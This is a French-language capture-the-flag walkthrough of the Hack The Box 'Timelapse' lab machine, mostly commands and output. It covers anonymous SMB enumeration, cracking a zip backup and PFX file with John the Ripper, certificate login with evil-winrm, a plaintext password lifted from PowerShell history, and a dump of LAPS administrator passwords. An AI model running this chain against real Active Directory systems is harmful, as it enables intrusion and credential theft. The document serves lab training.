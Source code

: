 # Timelapse - Easy

```bash
nmap -sV -sC 10.10.11.152 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-01 17:40 EST
Nmap scan report for 10.10.11.152
Host is up (0.028s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-02-02 00:40:44Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2h00m17s
| smb2-time: 
|   date: 2023-02-02T00:40:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

On est sur une machine windows avec un LDAP et SMB avec signing. On commence donc par essayer de se connecter en anonyme au smb

```bash
smbmap -H 10.10.11.152 -u anonymous
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

En cherchant plus en profondeur on trouve:

```bash
smbmap -H 10.10.11.152 -u anonymous -r Shares/HelpDesk
[+] Guest session       IP: 10.10.11.152:445    Name: 10.10.11.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Shares                                                  READ ONLY
        .\SharesHelpDesk\*
        dr--r--r--                0 Mon Oct 25 11:55:14 2021    .
        dr--r--r--                0 Mon Oct 25 11:55:14 2021    ..
        fr--r--r--          1118208 Mon Oct 25 11:55:14 2021    LAPS.x64.msi
        fr--r--r--           104422 Mon Oct 25 11:55:14 2021    LAPS_Datasheet.docx
        fr--r--r--           641378 Mon Oct 25 11:55:14 2021    LAPS_OperationsGuide.docx
        fr--r--r--            72683 Mon Oct 25 11:55:14 2021    LAPS_TechnicalSpecification.docx
```

On a également un autre fichier intéressant:

```bash
smbmap -H 10.10.11.152 -u anonymous --download Shares/Dev/winrm_backup.zip
```

On le crack:

```bash
zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > zip.hash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

On trouve le mdp: supremelegacy et on obtient le fichier legacyy_dev_auth.pfx qui est en fait un fichier **PKCS#12** donc il faut aussi le cracker.

```bash
/usr/share/john/pfx2john legacyy_dev_auth.pfx > legacy.hash
```

Note: il faut utiliser python2 pour que ça marche ou retirer les “ b’ ” et “ ’ ” 

On trouve le mot de passe du store: thuglegacy. On peut maintenant extraire le certificat et la clé à l’aide de ce mdp et de la passphrase qui est le mdp précédent

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx
```

On va donc essayer de se log avec evil-winrm avec ce certificat

```bash
evil-winrm -S -i 10.10.11.152 -c timelapse.crt -k timelapse.key
```

Et on est log en tant que legacyy. On récupére le flag user.

Rien dans les documents, on a pas accès à grand chose.

On va donc chercher l’historique des commandes powershell dans:

```bash
C:\Users\legacyy\APPDATA\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

On peut utiliser ce SecureString directement pour se log avec evilwinrm.

Après recherche voici la seule piste:

```bash
net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

On est membre du groupe LAPS_Readers qui va nous permettre de lire des creds.

Il faut faire cette commande pour dump:

```bash
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
```

On trouve ceci: 

```bash
ms-Mcs-AdmPwd                        : dQj@1Q},g,#9ts2f8pT0)6od
```

On obtient alors une connection en tant qu’administrateur et donc le flag final